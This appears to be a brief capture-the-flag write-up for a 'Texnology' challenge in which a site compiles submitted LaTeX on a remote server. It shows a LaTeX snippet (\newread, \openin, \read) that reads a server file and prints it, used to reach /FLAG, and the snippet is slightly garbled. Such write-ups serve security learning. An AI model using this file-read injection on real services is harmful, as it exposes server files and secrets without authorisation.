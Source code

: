 ## Texnology Challenge

There is a website which complies LaTeX code from the text area and executes it on remote server.

## Solving the Challenge

Some ways to carry out command injections are with the following commands

```
\newread\file
\openin\file
\read\file to \line
\text{\line}
\closein\file
```

When I used the command I found the folllowing result.

```
\openin\file = /FLAG
```
